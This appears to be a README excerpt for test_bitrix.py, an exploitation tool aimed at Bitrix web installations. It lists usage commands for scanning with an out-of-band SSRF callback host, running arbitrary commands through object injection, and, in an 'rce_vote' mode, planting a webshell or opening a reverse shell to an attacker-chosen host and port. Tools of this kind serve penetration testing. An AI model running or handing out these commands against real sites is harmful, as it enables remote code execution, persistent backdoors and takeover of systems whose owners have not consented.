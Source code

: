 ```console
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        target url (example: https://target.com) (default: None)
  -x proxy, --proxy proxy
                        URL proxy (example: http://127.0.0.1:8080) (default: None)
```

### Running scan mode

Scan common vulnerabilities

```sh
python3 test_bitrix.py -t https://example.com scan -s http://subdomain.oastify.com
```
Display help for mode
```sh
python3 test_bitrix.py scan -h
```

```console
usage: python3 test_bitrix.py scan [-h] -s SSRF_URL

options:
  -h, --help            show this help message and exit
  -s SSRF_URL, --ssrf_url SSRF_URL
                        url for ssrf attack (example: http://5kqki2fsl626q2257vy6xc2ef5lw9rxg.oastify.com)
```

### Running RCE object injection

```sh
python3 test_bitrix.py -t https://example.com object_injection -c 'whoami'
```

Display help for mode
```sh
python3 test_bitrix.py object_injection -h
```

```console
usage: python3 test_bitrix.py object_injection [-h] [-f FUNCTION] -c COMMAND

options:
  -h, --help            show this help message and exit
  -f FUNCTION, --function FUNCTION
                        Used function
  -c COMMAND, --command COMMAND
                        Command for execution
```

### Running RCE vote

Webshell

```sh
python3 test_bitrix.py -t https://example.com rce_vote --web-shell true
```
Reverse shell
```sh
python3 test_bitrix.py -t https://example.com rce_vote --lhost 192.168.1.1 --lport 8001
```
